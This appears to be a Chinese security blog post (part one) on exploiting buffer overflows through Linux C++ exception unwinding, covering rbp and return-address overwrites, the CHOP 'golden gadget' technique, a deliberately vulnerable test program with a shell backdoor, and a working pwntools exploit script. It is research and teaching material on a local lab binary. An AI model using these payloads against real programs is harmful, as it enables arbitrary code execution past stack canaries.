# 溢出漏洞在异常处理中的攻击利用手法-上 - 先知社区

溢出漏洞在异常处理中的攻击利用手法-上

- - -

> 本文针对的是Linux下的C++对应的异常处理，也就是对基于eh\_frame进行unwind的异常处理流程的攻击手法的研究。由于异常处理的流程和底层实现在不同操作系统和语言上有一定差距，需具体问题具体对待。
> 
> 本文的重点在于如何从通过异常处理来利用溢出漏洞，因而这里不对异常处理以及unwind的过程做详细分析，感兴趣可以自行查阅，相关资料也比较丰富。

## 简单的控制流劫持方式

先看如下代码，这种检测溢出的方式是否合理呢？

```plain
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

class x {
    public:
    char buf[0x10];
    x(void) {
        printf("x:x() called\n");
    }
    ~x(void) {
        printf("x:~x() called\n");
    }
};

void test() {
    x a;
    int cnt = 0x100;
    size_t len = read(0,a.buf,cnt);
    if(len > 0x10) {
        throw "Buffer overflow";
    }
}

int main()
{
    try {
        test();
        throw 1;
    }
    catch(int x) {
        printf("Int: %d\n", x);
    }
    catch(const char* s) {
        printf("String: %s\n", s);
    }
    return 0;
}
```

当送入不同长度数据时，出现下面结果（`rbp`距离buf为0x30）

-   数据长度为0x31时，`0xa`刚好覆盖`test()`的rbp的第一个字节时

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154116-5ed86ac8-7a1c-1.png)

-   数据长度为0x39时，`0xa`刚好覆盖`test()`的返回地址的第一个字节时

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154139-6c6b9cb4-7a1c-1.png)

众所周知，异常处理时从`__cxa_throw()`时开始，之后进行unwind, cleanup, handler，并不会执行发生异常所在函数的剩余部分，自然也就不会执行`ret`，因而依靠劫持返回地址直接进行跳转的攻击方式不再有效。

但通过上述几个例子，我们可以猜测，栈上的内容(如这里的rbp和ret地址)与异常处理的流程相关。进一步大胆考虑，是否能够通过更改rbp和ret地址为合适的内容来实现对异常处理程序流的劫持。接下来单独分析这几种crash的成因，以及如何利用。

### 覆盖rbp导致crash

首先查看`read`覆盖前，test函数的栈结构

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154208-7e07dcee-7a1c-1.png)

rsi的位置便是buf的起始地址和read的读入地址，同时也用蓝色框出了`canary`的位置，然后我们送入`'a'*0x30 + '\n'`共0x31长度的数据，可以看到rbp的低字节已经被更改成了0x0a

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154221-857a603c-7a1c-1.png)

我们先直接走到程序结束的位置，看看到底是哪一步汇编出现了问题，如图

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154231-8b5e2c0e-7a1c-1.png)

根据地址，我们可以在IDA中定位到这个`ret`属于异常处理结束后最终的ret命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154243-927bee04-7a1c-1.png)

因此可以确定是在执行handler时出错，我们直接将断点下至，这个handler的地方，也就是`b *0x555555555393`。一进这个函数就发现了异常点，注意红线位置的rbp是我们覆盖后的rbp

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154254-993395ee-7a1c-1.png)

此时就可以很容易的知道，由于这里使用`leave; ret`，ret的地址为`[rbp+8]`，即这里是可以通过合理控制rbp来控制返回地址

这里我们佐以测试我们直接将rbp改为got表中的位置，使其尝试调用`puts`函数，为了方便测试，这里直接关闭了pie缓解措施

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154304-9f5fc942-7a1c-1.png)

成功在异常处理中，通过控制rbp来调用puts，这个方式与常规的栈转移的前半部分十分相像

> 当然需要注意的时，在一些程序中栈并不依靠rbp存储栈帧，而直接使用rsp增减固定偏移的方式，该方法也就无法使用

### 覆盖ret地址

首先复现2号crash，送入数据`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n`，发现原来是由于rbp不合法导致的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154330-aef3c746-7a1c-1.png)

这里更改rbp为一个可写地址，继续查看ret是否有影响，这里rbp就继续沿用上面的got表，payload改为`b'a'*n + p64(0x000000000404038) + b'b'*8`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154346-b840da28-7a1c-1.png)

注意到这里需要让rdx为一个指针，且rdx内容恰好是我们覆盖的ret地址，这里我们将ret地址覆盖为`test`函数地址试试，payload进一步改为`b'a'*n + p64(0x000000000404038) + p64(0x401249)`

发现持续报错 **terminate called after throwing an instance of 'char const\*'** ，在网上搜索，发现有个类似的报错，是因为异常并没有正常匹配。

> 文章链接：[C++异常处理报错terminate called after throwing an instance of 'char const\*'](https://blog.csdn.net/Balance_1/article/details/108711696)

所以这里报错是因为unwind流程与返回地址相关，导致流程在test函数内搜索`catch handler`，而test函数中无对应类型的catch块，从而调用`__teminate()`终止进程。

为了测试是否真的为上述原因，我直接注释掉了主函数内的`catch(const char* s)`部分的内容。使得整个代码都没有 `char const*`类型的catch块，重新编译运行，复现成功.

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154406-c41c5e08-7a1c-1.png)

那么这里潜藏了一个含义，如果另一个函数内有对应类型的`catch`块，是否可以通过更改`ret`地址来使其执行另一个函数函数的`handler`. 为了验证，我为原有的测试代码增添了一个函数`backdoor`，并且在其他任何代码处均不会调用该函数.

```plain
void backdoor()
{
    try{
        printf("Here is backdoor!");
    }
    catch(const char* s) {
        printf("backdoor catch: %s\n", s);
    }
}
```

将ret地址修改为backdoor函数的try块地址范围内`0x401252-0x401258`(在我的测试中发现，这个范围是个左开但是右侧不精确的范围，为了保证成功率可以使用左测边界+1的地址)。这里也成功调用的backdoor的`catch handler`.

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154421-cd391ca6-7a1c-1.png)

### 小结

通过过上述分析，我们发现异常处理本身存在一些问题，并且使得canary这样的栈保护机制无效。因为异常抛出后的代码不会执行，自然也不会检测canary，自然也不会调用`stack_check_fail()`. 在此基础上我们发现了一些控制程序流的方式：

-   通过覆盖rbp，进而控制程序流走向。当然前提是栈帧的确使用rbp存储，因为一些情况下程序只依靠rsp增减。
-   通过覆盖ret地址，使异常被另外一个`handler`处理
-   在某些情况下还可以通过伪造覆盖类虚表的手法，使其在`cleanup handler`执行析构函数的时候劫持程序流(本文不做详细分析)

当然仅仅这些手法并不足够强大到执行任意代码的程度，只能在一些已存在的catch块和代码中跳转，因此下面我将详细分析另一个手法CHOP

## CHOP

> Paper: [Let Me Unwind That For You: Exceptions to Backward-Edge Protection](https://download.vusec.net/papers/chop_ndss23.pdf)

CHOP全称Catch Handler Oriented Programming，通过扰乱unwinder来实现程序流劫持的效果。在文章中提到了一个所谓**Gloden Gadget**，即如下代码片段（取自stdlibc++.so）

```plain
void __cxa_call_unexpected (void *exc_obj_in) {
 xh_terminate_handler = xh->terminateHandler;
 try { /* ... */ }
 catch (...) {
 __terminate(xh_terminate_handler);
 }
}

void __terminate (void (*handler)()) throw () {
 /* ... */
 handler();
 std::abort();
}
```

我们注意到，在函数`__cxa_call_unexpected()`中的catch块，传入了`xh_terminate_handler`，并在`__terminate()`中进行调用，这意味着，如果我们将ret地址调整为`__cxa_call_unexpected()`的try块，同时控制局部变量`xh_terminate_handler`为任意地址，即可实现控制流劫持。

众所周知,在最终执行catch handler时，栈帧与抛出异常时相同。因而局部变量是可控的，似乎**Gloden Gadget**为我们提供了一个可以任意指针调用的机会。

但是这里也存在这一个问题，我们都知道libc版本迭代非常快，这种利用在目前较高版本是否可行呢？？？

事实上，在ubuntu22.04上的所谓的**Gloden Gadgget**调用流程变为为`__cxa_call_unexpected()` ==> `__cxa_call_unexpected.cold()` ==> `__terminate()`, 大略代码如下：

```plain
void __cxa_call_unexpected (void *exc_obj_in) {
 try { /* ... */ }
 catch (...) {
    __cxa_call_unexpected_cold(a1)
 }
}
void _cxa_call_unexpected_cold(void *a1) {
    void (*v2)(void); // r12
    void *retaddr; // [rsp+0h] [rbp+0h] BYREF
    /*...*/
    if (!check_exception_spec(&retaddr, ...)) {
        if (check_exception_spec(&retaddr, ... )) {
          /*...*/
          _cxa_throw();
        }
        __terminate(v2);
    }
}

void __terminate (void (*handler)()) throw () {
 /* ... */
 handler();
 std::abort();
}
```

注意到terminate执行的handler变成了寄存器r12的值，同时需要控制局部变量进入`_cxa_call_unexpected_cold()`中合适的分支，防止中途再次抛出异常或是直接crash掉进程。

```plain
mov     rdi, r12
db      67h
call    __terminate ; __cxxabiv1::__terminate(void (*)(void))
```

正如我们前面谈到的，局部变量还是比较好控制的，但是寄存器如何控制呢？我们已知栈溢出可以控制栈上数据，如果有方法将栈上数据与寄存器做以联系，寄存器就应该可控了。这时我们就需要利用到`.eh_frame`上的信息了，使用`readelf -wF file`，我们可以窥见其中的奥秘.

> .eh\_frame section 主要由CFI, CIE和FDE组成。每个程序的section会包含一个或者多个CFI(Call Frame Information)。每个CFI包含一个CIE(Common Information Entry Record)记录，每个CIE包含一个或者多个FDE(Frame Description Entry)记录。
> 
> 需要注意的是，.eh\_frame和unwind的流程强相关，因而通过 -s 参数来去除符号表是无法去掉.eh\_frame section的相关信息的

通过readelf得到的信息大致如下，可以看到寄存器可以值与CFA相关，而CFA均为栈地址。一般我们找rsp+8的条目且能控制寄存器的即可

```plain
00000654 000000000000004c 000005f8 FDE cie=00000060 pc=00000000004027e0..0000000000402db0
   LOC           CFA      rbx   rbp   r12   r13   r14   r15   ra    
00000000004027e0 rsp+8    u     u     u     u     u     u     c-8   
00000000004027e6 rsp+16   u     u     u     u     u     c-16  c-8   
00000000004027e8 rsp+24   u     u     u     u     c-24  c-16  c-8   
00000000004027ea rsp+32   u     u     u     c-32  c-24  c-16  c-8   
00000000004027ec rsp+40   u     u     c-40  c-32  c-24  c-16  c-8   
00000000004027ed rsp+48   u     c-48  c-40  c-32  c-24  c-16  c-8   
00000000004027ee rsp+56   c-56  c-48  c-40  c-32  c-24  c-16  c-8   
00000000004027f5 rsp+240  c-56  c-48  c-40  c-32  c-24  c-16  c-8   
00000000004028a3 rsp+56   c-56  c-48  c-40  c-32  c-24  c-16  c-8   
00000000004028a4 rsp+48   c-56  c-48  c-40  c-32  c-24  c-16  c-8   
00000000004028a5 rsp+40   c-56  c-48  c-40  c-32  c-24  c-16  c-8   
00000000004028a7 rsp+32   c-56  c-48  c-40  c-32  c-24  c-16  c-8   
00000000004028a9 rsp+24   c-56  c-48  c-40  c-32  c-24  c-16  c-8   
00000000004028ab rsp+16   c-56  c-48  c-40  c-32  c-24  c-16  c-8   
00000000004028ad rsp+8    c-56  c-48  c-40  c-32  c-24  c-16  c-8   
00000000004028b0 rsp+240  c-56  c-48  c-40  c-32  c-24  c-16  c-8
```

### 测试代码

这里我将上述用到的测试代码更改为如下，同样为了方便测试，使用静态编译且关闭pie，测试代码的逻辑很简单，不做过多阐述

```plain
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

class x {
    public:
    char buf[0x10];
    x(void) {
        printf("x:x() called\n");
    }
    ~x(void) {
        printf("x:~x() called\n");
    }
};

void backdoor()
{
    system("/bin/sh");
}

void test() {
    x a;
    int cnt = 0x100;
    size_t len = read(0,a.buf,cnt);
    if(len > 0x10) {
        throw "Buffer overflow";
    }
}

int main()
{
    try {
        test();
        throw 1;
    }
    catch(int x) {
        printf("Int: %d\n", x);
    }
    catch(const char* s) {
        printf("String: %s\n", s);
    }
    return 0;
}
```

### 调试及利用

首先找到`__cxa_call_unexpected()`函数，以及对应try块起始地址`0x402df0`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154442-d975faac-7a1c-1.png)

> 由于我是用的是ubuntu22.04，libc和stdlibc++的版本应该与paper中有所差距，实际**Gloden Gadget**的部分也会更复杂一些，所以需要不断调试更改栈内容，设置合适的局部变量，防止程序在运行过程中crash掉.

为了方便查看不同的栈偏移在局部变量的作用，我将填充内容做以区分。选择任意一个rsp+8且能设置r12寄存器条目，将ret地址覆盖为该内容，将栈内容存入寄存器，最后接上**Golden Gadget**的try块地址用于调用指针

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154455-e1739dcc-7a1c-1.png)

为了提高调试时局部变量的辨识度，测试payload构造如下

```plain
payload = b'a'*8
payload += b'b'*8
payload += b'c'*8
payload += b'd'*8
payload += b'e'*8
payload += b'f'*8
payload += b'g'*8
payload += p64(0x004032a4+1)
payload += p64(0x402df0+1)
io.send(payload)
```

在调用到**Gloden Gadget**时，我们已经可以看到寄存器的值被更改为了栈上的内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154512-eb5a55f6-7a1c-1.png)

然后就是一些分支的局部变量调整，经过一系列对局部变量的调整，我们终于看到了`__terminate`中调用的handler

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154526-f39f593c-7a1c-1.png)

此时只需要将对应的值替换为后门即可，成功完成利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103154536-f99c4084-7a1c-1.png)

> 这里局部变量的调试比较枯燥，直接跟着断点看看哪里crash然后更改变量为合适的值即可，不做详细阐述

### exp

最终的参考exp如下

```plain
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./pwn')
def p():
    gdb.attach(proc.pidof(io)[0],'b *0x401259')

# p()
backdoor = 0x401a7d    
io.recvuntil("called")
payload = b'a'*8
payload += b'b'*8
payload += b'c'*8
payload += p64(0xff) #防止crash
payload += p64(backdoor)
payload += p64(0x4a6001) #防止crash
payload += b'g'*8
payload += p64(0x004032a4+1)
payload += p64(0x402df0+1)
io.send(payload)

io.interactive()
```

> 在下篇文章将会深入介绍与传统ROP以及Sigreturn之间相互配合利用的攻击手法

打赏
